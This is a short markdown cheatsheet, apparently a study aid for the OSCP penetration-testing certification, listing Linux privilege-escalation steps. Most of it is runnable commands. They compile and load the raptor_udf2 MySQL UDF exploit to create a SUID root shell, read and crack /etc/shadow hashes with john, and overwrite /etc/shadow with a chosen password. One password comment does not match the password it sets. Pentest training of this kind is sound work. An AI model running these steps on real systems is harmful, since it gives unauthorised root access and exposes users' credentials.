 # oscp-cheatsheet

## Linux Privilege Escalation

### Service Exploit - MySQL UDF Exploit
```
https://www.exploit-db.com/exploits/1518

ps aux | grep mysql
gcc -g -c raptor_udf2.c -fPIC
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
mysql -u root
use mysql;
Select * from mysql.func;  #to list the user defined functions
create table foo(line blob);
insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
/tmp/rootbash -p
```
#### Weak File Permission - /etc/shadow Readable
```
ls -la /etc/shadow            #to view the permission of /etc/shadow
cat /etc/shadow               #to view the shadow file
john --format=sha512crypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
su root                       #login with cracked password 'password123'
whoami;id;pwd
```
#### weak File Permission - /etc/shadow Writable
```
ls -la /etc/shadow
mkpasswd -m sha-512 bala123
nano /etc/shadow
su root                           #login with custom password 'bala123123'
whoami;id;pwd
```
### Sudo Shell Escape Sequences

[GTFOBins](https://gtfobins.github.io/)
